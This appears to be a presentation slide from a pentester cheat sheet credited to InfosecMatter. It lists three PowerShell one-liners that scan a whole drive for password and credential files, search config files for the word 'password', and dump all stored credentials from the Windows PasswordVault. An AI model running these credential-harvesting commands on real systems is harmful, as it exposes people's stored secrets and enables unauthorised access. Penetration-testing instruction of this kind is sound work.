

gci c:\ -Include *pass*.txt,*pass*.xml,*pass*.ini,*pass*.xlsx,*cred*,*vnc*,*.config*,*accounts* -File -Recurse -EA SilentlyContinue : Used to identify files that may contain sensitive data
gci c:\ -Include *.txt,*.xml,*.config,*.conf,*.cfg,*.ini -File -Recurse -EA SilentlyContinue | Select-String -Pattern "password“ : Used to find config files that contain the text “password”
[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime];(New-Object Windows.Security.Credentials.PasswordVault).RetrieveAll() | % { $_.RetrievePassword();$_ } : Retrieve stored passwords from Windows PasswordVault
# Being mischievous! (PS for pentesters)
PowerShell Commands for Pentesters - InfosecMatter